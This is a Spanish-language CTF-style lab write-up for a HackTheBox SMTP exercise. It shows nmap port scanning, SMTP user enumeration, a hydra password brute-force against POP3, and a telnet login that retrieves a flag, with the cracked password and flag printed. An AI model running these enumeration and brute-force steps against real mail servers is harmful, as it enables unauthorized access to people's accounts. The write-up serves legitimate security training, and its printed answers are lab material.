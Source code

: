 # Laboratorio SMTP 📨

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    <img src="./assets/DNS/01-Ports.PNG">
</p>

---

Enumeramos los usuarios disponibles en el servicio `SMTP`
* `smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t [IP] -p 25`

**Output**
```
[IP]: marlin@inlanefreight.htb exists
```

---

Ahora **realizaremos fuerza bruta** con el usuario `marlin`
* `hydra -l marlin@inlanefreight.htb -P passwords.txt [IP] pop3`

    * `passwords.txt` Recurso dado por HackTheBox

**Output**
```
[110][pop3] host: [IP]   login: marlin@inlanefreight.htb   password: poohbear
```

---

Nos autenticamos en el servicio `POP3`

1. `telnet [IP] 110`
2. 
```
USER marlin@inlanefreight.htb
+OK Send your password
PASS poohbear
+OK Mailbox locked and ready
```

3. Listamos los correos con `LIST`
```
+OK 1 messages (601 octets)
1 601
```

4. Leemos el contenido con `RETR [ID]`
```
Hi admin,

How can I change my password to something more secure? 

flag: HTB{w34k_p4$$w0rd}
```